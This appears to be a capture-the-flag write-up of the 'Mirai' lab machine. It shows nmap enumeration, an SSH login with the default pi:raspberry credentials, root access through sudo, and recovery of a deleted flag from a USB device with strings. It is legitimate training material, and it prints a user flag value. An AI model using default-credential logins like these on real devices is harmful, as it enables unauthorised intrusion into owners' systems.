

---
search:
  exclude: true
---
# Mirai Writeup

## Introduction :

Mirai is an easy linux box released back in September 2017. It features a misconfigured pi-hole service onto which the administrator seems to have deleted our precious root flag...

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
      λ nihilist [ 10.10.14.48/23 ] [~] → nmap -sC -sV 10.10.10.48
      Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-15 22:18 CET
      Nmap scan report for 10.10.10.48
      Host is up (0.058s latency).
      Not shown: 997 closed ports
      PORT   STATE SERVICE VERSION
      22/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
      | ssh-hostkey:
      |   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
      |   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
      |   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
      |_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
      53/tcp open  domain  dnsmasq 2.76
      | dns-nsid:
      |_  bind.version: dnsmasq-2.76
      80/tcp open  http    lighttpd 1.4.35
      |_http-server-header: lighttpd/1.4.35
      |_http-title: Site doesnt have a title (text/html; charset=UTF-8).
      Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 17.22 seconds
    

## **Part 2 : Getting User Access**

Looking at our nmap results, we see that port 80 seems to be serving a lighthttp service. We could browse to the adress into our web browser, but for this example we will use the curl command. 
    
    
    λ nihilist [ 10.10.14.48/23 ] [~] → curl -vsk http://10.10.10.48/
    *   Trying 10.10.10.48:80...
    * TCP_NODELAY set
    * Connected to 10.10.10.48 (10.10.10.48) port 80 (#0)
    > GET / HTTP/1.1
    > Host: 10.10.10.48
    > User-Agent: curl/7.67.0
    > Accept: */*
    >
    * Mark bundle as not supporting multiuse
    < HTTP/1.1 404 Not Found
    < X-Pi-hole: A black hole for Internet advertisements.
    < Content-type: text/html; charset=UTF-8
    < Content-Length: 0
    < Date: Fri, 15 Nov 2019 21:28:22 GMT
    < Server: lighttpd/1.4.35
    <
    * Connection #0 to host 10.10.10.48 left intact
    

We see that the box seems to be running a the Pi-Hole service, which is basically a DNS loophole to avoid getting ads.  We can suppose that the box may have misconfigured his ssh, and perhaps left the default user and password. which could potentially be using th credentials **pi:raspberry**
    
    
      λ nihilist [ 10.10.14.48/23 ] [~] → ssh pi@10.10.10.48
    pi@10.10.10.48's password:
    Permission denied, please try again.
    pi@10.10.10.48's password:
    
    The programs included with the Debian GNU/Linux system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc//copyright.
    
    Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
    permitted by applicable law.
    Last login: Sun Aug 27 14:47:50 2017 from localhost
    
    SSH is enabled and the default password for the 'pi' user has not been changed.
    This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.
    
    
    SSH is enabled and the default password for the 'pi' user has not been changed.
    This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.
    
    pi@raspberrypi:~ $ whoami
    pi
    
    pi@raspberrypi:~ $ uname -a
    Linux raspberrypi 3.16.0-4-686-pae #1 SMP Debian 3.16.36-1+deb8u2 (2016-10-19) i686 GNU/Linux
    
    pi@raspberrypi:~ $ cat /home/pi/Desktop/user.txt
    ff837707441b257a20e32199d7c8838d
    

Our assumptions have been confirmed, the box has left it's ssh service misconfigured, giving us a shell logged as the default user pi. Therefore allowing us to capture the user flag. 

## **Part 3 : Getting Root Access**

In order to capture the root flag we will try to escalate privileges using the sudo -i command.
    
    
      pi@raspberrypi:~ $ sudo -i
    
    SSH is enabled and the default password for the 'pi' user has not been changed.
    This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.
    
    
    SSH is enabled and the default password for the 'pi' user has not been changed.
    This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.
    
    root@raspberrypi:~# whoami
    root
    root@raspberrypi:~# cat /root/root.txt
    I lost my original root.txt! I think I may have a backup on my USB stick...
    

We have been able to escalate privileges ! However the root flag seems to be elsewhere on a supposed usb stick. Let's see which external drives are mounted using the **mount** command.
    
    
      root@raspberrypi:~# mount
    sysfs on /sys type sysfs (rw,nosuid,nodev,noexec,relatime)
    proc on /proc type proc (rw,nosuid,nodev,noexec,relatime)
    tmpfs on /run type tmpfs (rw,nosuid,relatime,size=102396k,mode=755)
    /dev/sda1 on /lib/live/mount/persistence/sda1 type iso9660 (ro,noatime)
    /dev/loop0 on /lib/live/mount/rootfs/filesystem.squashfs type squashfs (ro,noatime)
    tmpfs on /lib/live/mount/overlay type tmpfs (rw,relatime)
    /dev/sda2 on /lib/live/mount/persistence/sda2 type ext4 (rw,noatime,data=ordered)
    aufs on / type aufs (rw,noatime,si=f1429df6,noxino)
    devtmpfs on /dev type devtmpfs (rw,nosuid,size=10240k,nr_inodes=58955,mode=755)
    securityfs on /sys/kernel/security type securityfs (rw,nosuid,nodev,noexec,relatime)
    tmpfs on /dev/shm type tmpfs (rw,nosuid,nodev)
    devpts on /dev/pts type devpts (rw,nosuid,noexec,relatime,gid=5,mode=620,ptmxmode=000)
    tmpfs on /run/lock type tmpfs (rw,nosuid,nodev,noexec,relatime,size=5120k)
    tmpfs on /sys/fs/cgroup type tmpfs (ro,nosuid,nodev,noexec,mode=755)
    cgroup on /sys/fs/cgroup/systemd type cgroup (rw,nosuid,nodev,noexec,relatime,xattr,release_agent=/lib/systemd/systemd-cgroups-agent,name=systemd)
    pstore on /sys/fs/pstore type pstore (rw,nosuid,nodev,noexec,relatime)
    cgroup on /sys/fs/cgroup/cpuset type cgroup (rw,nosuid,nodev,noexec,relatime,cpuset)
    cgroup on /sys/fs/cgroup/cpu,cpuacct type cgroup (rw,nosuid,nodev,noexec,relatime,cpu,cpuacct)
    cgroup on /sys/fs/cgroup/devices type cgroup (rw,nosuid,nodev,noexec,relatime,devices)
    cgroup on /sys/fs/cgroup/freezer type cgroup (rw,nosuid,nodev,noexec,relatime,freezer)
    cgroup on /sys/fs/cgroup/net_cls,net_prio type cgroup (rw,nosuid,nodev,noexec,relatime,net_cls,net_prio)
    cgroup on /sys/fs/cgroup/blkio type cgroup (rw,nosuid,nodev,noexec,relatime,blkio)
    cgroup on /sys/fs/cgroup/perf_event type cgroup (rw,nosuid,nodev,noexec,relatime,perf_event)
    systemd-1 on /proc/sys/fs/binfmt_misc type autofs (rw,relatime,fd=22,pgrp=1,timeout=300,minproto=5,maxproto=5,direct)
    debugfs on /sys/kernel/debug type debugfs (rw,relatime)
    hugetlbfs on /dev/hugepages type hugetlbfs (rw,relatime)
    mqueue on /dev/mqueue type mqueue (rw,relatime)
    tmpfs on /tmp type tmpfs (rw,nosuid,nodev,relatime)
    
    **/dev/sdb on /media/usbstick type ext4 (ro,nosuid,nodev,noexec,relatime,data=ordered)**
    tmpfs on /run/user/999 type tmpfs (rw,nosuid,nodev,relatime,size=51200k,mode=700,uid=999,gid=997)
    tmpfs on /run/user/1000 type tmpfs (rw,nosuid,nodev,relatime,size=51200k,mode=700,uid=1000,gid=1000)
    
    

We seem to have a folder to work with : **/media/usbstick**
    
    
    root@raspberrypi:~# cd /media/usbstick
    root@raspberrypi:/media/usbstick# ls
    damnit.txt  lost+found
    root@raspberrypi:/media/usbstick# cat damnit.txt
    Damnit! Sorry man I accidentally deleted your files off the USB stick.
    Do you know if there is any way to get them back?
    
    -James
    
    

Yet another troll ! Although we do know that we are on the /dev/sdb partition, we will use the **strings** command to list the previous commands that happenned on /dev/sdb and hopefully find a way to get to the root flag.
    
    
    root@raspberrypi:/media/usbstick# strings /dev/sdb
    >r &
    /media/usbstick
    lost+found
    root.txt
    damnit.txt
    >r &
    >r &
    /media/usbstick
    lost+found
    root.txt
    damnit.txt
    >r &
    /media/usbstick
    2]8^
    lost+found
    root.txt
    damnit.txt
    >r &
    **3dXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX**
    Damnit! Sorry man I accidentally deleted your files off the USB stick.
    Do you know if there is any way to get them back?
    -James
    

And that's it ! We have finally found the root flag. 

## **Conclusion**

Here we can see the progress graph :

